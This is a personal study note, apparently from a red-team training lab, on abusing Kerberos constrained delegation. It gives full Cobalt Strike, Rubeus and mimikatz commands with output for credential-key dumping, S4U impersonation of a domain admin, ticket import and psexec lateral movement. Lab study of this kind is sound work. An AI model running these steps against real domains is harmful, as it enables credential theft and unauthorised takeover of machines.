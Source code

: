```yaml
---
creation date: September 24th 2022
last modified date: September 24th 2022
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[Constrained Delgation]]  
___

## Description:  

Find all computers configured for constrained delegation and what they're allowed to delegate to (we need the `--json` output to drill down into the `msds-allowedtodelegateto` attribute).

 Constrained delegation can be configured on user accounts as well as computer accounts.  Make sure you search for both.

### CobaltStrike

```
beacon> execute-assembly C:\Tools\ADSearch\ADSearch\bin\Debug\ADSearch.exe --search "(&(objectCategory=computer)(msds-allowedtodelegateto=*))" --attributes cn,dnshostname,samaccountname,msds-allowedtodelegateto --json

[*] No domain supplied. This PC's domain will be used instead
[*] LDAP://DC=dev,DC=cyberbotic,DC=io
[*] CUSTOM SEARCH: 
[*] TOTAL NUMBER OF SEARCH RESULTS: 1
[
  {
    "cn": "SRV-2",
    "dnshostname": "srv-2.dev.cyberbotic.io",
    "samaccountname": "SRV-2$",
    "msds-allowedtodelegateto": [
      "eventlog/dc-2.dev.cyberbotic.io/dev.cyberbotic.io",
      "eventlog/dc-2.dev.cyberbotic.io",
      "eventlog/DC-2",
      "eventlog/dc-2.dev.cyberbotic.io/DEV",
      "eventlog/DC-2/DEV",
      "cifs/wkstn-2.dev.cyberbotic.io",
      "cifs/WKSTN-2"
    ]
  }
]

```


In Bloodhound:
```
MATCH (c:Computer), (t:Computer), p=((c)-[:AllowedToDelegate]->(t)) RETURN p
```

To perform the delegation, we ultimately need the TGT of the principal (machine or user) trusted for delegation, for which there are two main methods.

We can extract it directly from a machine with `Rubeus dump`:

```
beacon> run hostname
srv-2

beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Debug\Rubeus.exe triage
 --------------------------------------------------------------------------------------------------------------- 
 | LUID    | UserName                   | Service                                       | EndTime              |
 --------------------------------------------------------------------------------------------------------------- 
 | 0x3e4   | srv-2$ @ DEV.CYBERBOTIC.IO | krbtgt/DEV.CYBERBOTIC.IO                      | 12/5/2021 8:06:05 AM |
 | [...snip...]                                                                                                |
 --------------------------------------------------------------------------------------------------------------- 

beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Debug\Rubeus.exe dump /luid:0x3e4 /service:krbtgt /nowrap

```

Or request one using the NTLM / AES keys:

```
beacon> mimikatz sekurlsa::ekeys

[...snip...]
       aes256_hmac       babf31e0d787aac5c9cc0ef38c51bab5a2d2ece608181fb5f1d492ea55f61f05
       rc4_hmac_nt       6df89604703104ab6e938aee1d23541b

beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Debug\Rubeus.exe asktgt /user:srv-2$ /aes256:babf31e0d787aac5c9cc0ef38c51bab5a2d2ece608181fb5f1d492ea55f61f05 /opsec /nowrap

[*] Action: Ask TGT

[*] Using domain controller: dc-2.dev.cyberbotic.io (10.10.17.71)
[!] Pre-Authentication required!
[!]	AES256 Salt: DEV.CYBERBOTIC.IOhostsrv-2.dev.cyberbotic.io
[*] Using aes256_cts_hmac_sha1 hash: babf31e0d787aac5c9cc0ef38c51bab5a2d2ece608181fb5f1d492ea55f61f05
[*] Building AS-REQ (w/ preauth) for: 'dev.cyberbotic.io\srv-2$'
[*] Using domain controller: 10.10.17.71:88
[+] TGT request successful!
[*] base64(ticket.kirbi):

      doIFLD [...snip...] MuSU8=

```

With the TGT, perform an S4U request to obtain a usable TGS for CIFS.

```
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Debug\Rubeus.exe s4u /impersonateuser:nlamb /msdsspn:cifs/wkstn-2.dev.cyberbotic.io /user:srv-2$ /ticket:doIFLD[...snip...]MuSU8= /nowrap

[*] Action: S4U

[*] Building S4U2self request for: 'SRV-2$@DEV.CYBERBOTIC.IO'
[+] Sequence number is: 95699137
[*] Using domain controller: dc-2.dev.cyberbotic.io (10.10.17.71)
[*] Sending S4U2self request to 10.10.17.71:88
[+] S4U2self success!
[*] Got a TGS for 'nlamb' to 'SRV-2$@DEV.CYBERBOTIC.IO'
[*] base64(ticket.kirbi):

      doIFfj [...snip...] JWLTIk

[*] Impersonating user 'nlamb' to target SPN 'cifs/wkstn-2.dev.cyberbotic.io'
[*] Building S4U2proxy request for service: 'cifs/wkstn-2.dev.cyberbotic.io'
[+] Sequence number is: 1704539139
[*] Using domain controller: dc-2.dev.cyberbotic.io (10.10.17.71)
[*] Sending S4U2proxy request to domain controller 10.10.17.71:88
[+] S4U2proxy success!
[*] base64(ticket.kirbi) for SPN 'cifs/wkstn-2.dev.cyberbotic.io':

      doIGwj [...snip...] ljLmlv

```

Where:

-   `/impersonateuser` is the user we want to impersonate. `nlamb` is a domain admin but you want to ensure this user has local admin access to the target (WKSTN-2).
-   `/msdsspn` is the service principal name that SRV-2 is allowed to delegate to.
-   `/user` is the principal allowed to perform the delegation.
-   `/ticket` is the TGT for `/user`.

This will perform an S4U2Self first and then an S4U2Proxy.  It's this final S4U2Proxy ticket that we need - save the ticket to a file on your desktop.

```
PS C:\> [System.IO.File]::WriteAllBytes("C:\Users\Administrator\Desktop\cifs.kirbi", [System.Convert]::FromBase64String("doIGWD[...snip...]MuaW8="))
```

Create a new sacrificial session (to avoid clobbering the tickets in our current session) and use `kerberos_ticket_use` to import the new CIFS TGS.

```
beacon> make_token DEV\nlamb FakePass
[+] Impersonated DEV\bfarmer

beacon> kerberos_ticket_use C:\Users\Administrator\Desktop\cifs.kirbi

```

We can now access the remote filesystem and jump to it using psexec.

```
beacon> ls \\wkstn-2.dev.cyberbotic.io\c$

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     02/19/2021 14:35:19   $Recycle.Bin
          dir     02/10/2021 03:23:44   Boot
          dir     10/18/2016 01:59:39   Documents and Settings
          dir     02/23/2018 11:06:05   PerfLogs
          dir     01/20/2022 15:43:43   Program Files
          dir     02/16/2022 12:46:57   Program Files (x86)
          dir     03/01/2022 16:08:35   ProgramData
          dir     10/18/2016 02:01:27   Recovery
          dir     02/19/2021 14:45:10   System Volume Information
          dir     05/05/2021 16:13:00   Users
          dir     06/13/2022 08:40:13   Windows
 379kb    fil     01/28/2021 07:09:16   bootmgr
 1b       fil     07/16/2016 13:18:08   BOOTNXT
 256mb    fil     06/13/2022 08:02:25   pagefile.sys

beacon> jump psexec64 wkstn-2.dev.cyberbotic.io smb
Started service 51a4bfb on wkstn-2.dev.cyberbotic.io
[+] established link to child beacon: 10.10.17.132

```

Make sure to always use the FQDN.  Otherwise, you will see 1326 errors.

___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: September 24th 2022 (12:36 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
